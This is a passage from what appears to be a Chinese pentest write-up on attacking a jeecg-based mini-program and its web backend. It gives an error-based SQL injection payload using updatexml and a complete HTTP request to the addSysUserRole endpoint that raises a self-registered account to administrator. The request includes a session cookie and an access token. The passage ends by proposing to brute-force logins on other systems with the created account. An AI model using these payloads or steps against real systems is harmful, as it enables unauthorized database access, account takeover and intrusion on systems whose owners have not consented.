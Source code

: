   
  
这个小程序的一个接口还存在SQL注入漏洞，通过测试，直接可以注入出数据库名称，直接又一个SQL注入到手了  
  
```
SQL注入payload：updatexml(1,concat(0x7e,user(),0x7e),1)
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9RFRLBwta29JNR8LbZnxYDzRhuLEkvicd6muWPlBicqKIIu6X0XezDU9w/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x5 添加管理员用户**  
  
  
  
师傅们，其实测试到这里，这个系统小程序和web端都摸熟悉了，就是jeecg的系统框架，里面的很多接口都是jeecg开发默认的接口名称，但是前面的路径发生了一点变化，没有原班直接拿jeecg的接口使用，但是经过FUZZ测试出来了很多接口，这里给师傅们分享下，我先注册一个账号，然后提权到admin管理员账号的过程。  
  
  
首先我使用register注册接口，注册一个账号  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9rSgBrTs2nkoV2SekImF2VLX70UdicWEiaI7ekc68MBX36dQEjkRLPmDg/640?wx_fmt=png&from=appmsg "")  
  
  
  
下面就是提权的一个操作了，需要再次FUZZ接口，因为打jeecg漏洞多的师傅们，都知道，jeecg有很多的接口，像什么注册、查信息，查user_id，查所以账号的token值，还有用户敏感信息等，但是现在很多系统都不会直接拿jeecg都路径接口部署了，多多少少会进行魔改  
  
  
这里首先需要查询管理员admin的账户ID  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9WfWPn2VHP0MSSP95JtUhzqW0Tt2kx9nVVgKzlHXPJErmbwfiaI4Nk3g/640?wx_fmt=png&from=appmsg "")  
  
  
  
然后查询自己刚才创建用户的ID值  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9FRpoF89TRHvciaNIhPkCXJcpYQKr8ucPHUuVdpw8UYL0qsiaib5vVoyiaA/640?wx_fmt=png&from=appmsg "")  
  
  
  
然后使用打提权使用的jeecg漏洞poc，如下：  
  
  
//roleld填写需要提权的角色id userldList填写自己的id  
  
```
POST xxxxx/jeecg-boot/sys/user/addSysUserRole（jeecg接口，需要自己去尝试，不一定是我这个） HTTP/1.1Host: Cookie: cna=Ov9SH4RxGiACAf////9C18zbUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0Accept: application/json, text/plain, */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateX-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MjUzNzMyNDMsInVzZXJuYW1lIjoiMTEwMTAyIn0.NXRckymfKdZvEFsDQZ9Jwvk_rU_gVny2Rx6ATenant-Id: 0Origin:Dnt: 1Referer: Sec-Fetch-Dest: emptySec-Fetch-Mode: corsSec-Fetch-Site: same-originPriority: u=0Te: trailersConnection: closeContent-Type: application/jsonContent-Length: 96{"roleId":"xxxxxxxxxxx","userIdList":["xxxxxxxxxxxxxxxx"]}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9eVPUhaU1q56Npia6uezsXdbIMhfVAHxAQ3bEiapib1YmQiazBku7S0icEyA/640?wx_fmt=png&from=appmsg "")  
  
  
这样就成功创建了这个系统的admin管理员的账户了，后面的思考就是直接使用创建的账户密码，去尝试爆破登陆其他系统  
  
  